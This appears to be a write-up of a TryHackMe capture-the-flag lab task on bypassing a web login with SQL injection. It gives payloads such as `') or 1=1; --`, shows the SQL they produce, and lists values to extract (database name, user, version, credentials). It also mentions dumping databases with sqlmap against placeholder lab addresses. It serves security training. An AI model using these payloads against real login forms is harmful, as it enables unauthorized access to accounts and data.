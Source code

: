 
## Task 10 - Day 5 - Web Exploitation - Someone stole Santa's gift list

This page is about using `sql injection` payloads to bypass login and use `burpsuite` to save web page requests and use `sqlmap` to dump database contents using the web page requests.


Use these links as references.
- [TryHackMe supporting material](https://www.youtube.com/watch?v=Kitx7cSNsuE){:target="_blank"}
- [TryHackMe supporting room](https://tryhackme.com/room/sqlibasics){:target="_blank"}
- [SQL Commands](https://www.codecademy.com/articles/sql-commands){:target="_blank"}
- [SQLMap Cheatsheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet){:target="_blank"}
- [SQL Injection Payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection){:target="_blank"}
- [SQL Injection Payload](https://github.com/payloadbox/sql-injection-payload-list){:target="_blank"}


Use `firefox` to load the url `http://<ip>:3000` and check the page.

Use `firefox` to load the url `http://<ip>:3000`. The page will show the sql payload translation given in password tab.
{% capture code %}{% raw %}username - test
password - anything') or true; --{% endraw %}{% endcapture %} {% include code.html code=code %}

An output similar to below will be obtained.
{% capture code %}{% raw %}SELECT * FROM users
  WHERE username = 'test'
  AND password = MD5('anything') or true; -- '){% endraw %}{% endcapture %} {% include code.html code=code %}

Using payload `') or 1=1; --` will give sql payload translation as below.
{% capture code %}{% raw %}SELECT * FROM users
  WHERE username = 'test'
  AND password = MD5('') or 1=1; -- '){% endraw %}{% endcapture %} {% include code.html code=code %}

Use `firefox` to load `<ip>:3000/init.php` to reset the database.

The following things are of interest in `sql injection`.
{% capture code %}{% raw %}database()
user()
@@version
username
password
table_name
column_name{% endraw %}{% endcapture %} {% include code.html code=code %}

Guess the hidden directory under `http://<ip>:8000` using the words `santa secret login panel`.

Use `sql injection` as tried earlier in the hidden url `http://<ip>:8000/<hidden>`. In place of `password`, use any of the below.
{% capture code %}{% raw %}') or true; --
' or true; --{% endraw %}{% endcapture %} {% include code.html code=code %}
